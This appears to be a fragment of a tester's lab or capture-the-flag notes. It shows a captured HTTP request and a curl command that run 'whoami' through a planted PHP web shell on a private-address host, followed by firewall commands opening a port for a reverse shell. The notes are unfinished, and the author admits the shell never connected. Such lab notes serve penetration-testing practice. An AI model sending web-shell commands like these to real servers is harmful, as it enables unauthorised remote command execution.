 
```
POST /web/exploit-sardarji.php HTTP/1.1

Host: 10.200.87.150

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: csrftoken=4Z65FLlf0WIwqYkgLN8R6kETdRgXT2w4; sessionid=43621cb6f1a317423ef820294d1f2b07

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 8


```


```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=whoami"
```

```
refer notepad for now
```

So we have 2 methods to execute and talk back with the server
1st Burpsuite
2nd Curl

I was not getting the shell means firewall is not allowing us to pass the outbound traffic. So let's open the port which should be greater than 15000.

```
firewall-cmd --zone=public --add-port 15999/tcp
```

```
firewall-cmd --list-all
```

![[Pasted image 20240730191933.png]]

I am doing something wrong will review things.
